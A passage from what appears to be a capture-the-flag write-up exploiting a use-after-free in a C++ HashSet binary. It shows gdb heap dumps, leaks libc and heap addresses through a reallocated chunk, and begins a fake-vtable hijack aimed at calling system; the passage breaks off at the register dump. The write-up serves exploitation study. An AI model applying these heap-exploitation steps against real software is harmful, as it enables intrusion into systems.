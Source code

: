 0x8050b20:      0x00000000      0x00000000      0x00000000      0x00000000
{% endhighlight %}

And after freeing `set_vec[0]` and `set_vec[1]`:
{% highlight bash %}
gdb-peda$ x/64xw 0x08050a38-0x8
0x8050a30:      0x00000000      0x000000a1      0xf7e89450      0xf7e89450
0x8050a40:      0x00000000      0x08050a50      0x00000000      0x00000089
0x8050a50:      0xf7e89450      0xf7e89450      0x00000000      0x00000000
0x8050a60:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a70:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a80:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050a90:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050aa0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ab0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ac0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050ad0:      0x000000a0      0x00000018      0x00000000      0x00000020
0x8050ae0:      0x00000000      0x08050af0      0x00000000      0x00020519
0x8050af0:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b00:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b10:      0x00000000      0x00000000      0x00000000      0x00000000
0x8050b20:      0x00000000      0x00000000      0x00000000      0x00000000
{% endhighlight %}

Notice how the **vptr** in `0x8050a38` is overwritten with a libc address after it is freed.
Also, observe how the size of the chunk that originally started at address `0x8050a30` is now `0xa1`. 

We can actually exploit this use-after-free vulnerability by allocating a **third** box to leak both a heap address and a libc address.

Since we now have a free chunk of size `0x18` at `0x8050ad0` if we allocate this third box with 8 items in it, the new `hash_int` object will be allocated at `0x8050ad0`, but its `set_data` array will be allocated at `0x8050a30`! 

We can then leak a libc address and a heap address by printing items from the third box, which will start leaking addresses starting at `0x8050a38`!

We can subsequently use the libc leak to calculate the address of `system@libc`, `gets@libc`, and `binsh@libc`. 

## EIP Control
Now, to control EIP, I at first crafted a fake vtable within a **4th box** that I added so that instead of `add()` being called, `system()` is called instead.

***Unfortunately, this is no good because when `system()` is called, while we do control EIP, we also only control `arg2`, not `arg1`, due to the way virtual functions are called.***
{% highlight bash %}
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xf7441190 (<__libc_system>:       push   ebx)
EBX: 0xf75ab000 --> 0x1a9da8 
ECX: 0xf7561a24 ("/bin/sh")
EDX: 0x86c3a38 --> 0x86c3a70 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffd1f278 --> 0xffd1f2a8 --> 0x0 
ESP: 0xffd1f250 --> 0x86c3a38 --> 0x86c3a70 --> 0x0 
EIP: 0x8049278 (<_Z11do_add_itemPP7HashSetIi8hash_numE+177>:    call   eax)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804926e <_Z11do_add_itemPP7HashSetIi8hash_numE+167>:       mov    ecx,DWORD PTR [ebp-0xc]
   0x8049271 <_Z11do_add_itemPP7HashSetIi8hash_numE+170>:       mov    DWORD PTR [esp+0x4],ecx
   0x8049275 <_Z11do_add_itemPP7HashSetIi8hash_numE+174>:       mov    DWORD PTR [esp],edx
=> 0x8049278 <_Z11do_add_itemPP7HashSetIi8hash_numE+177>:       call   eax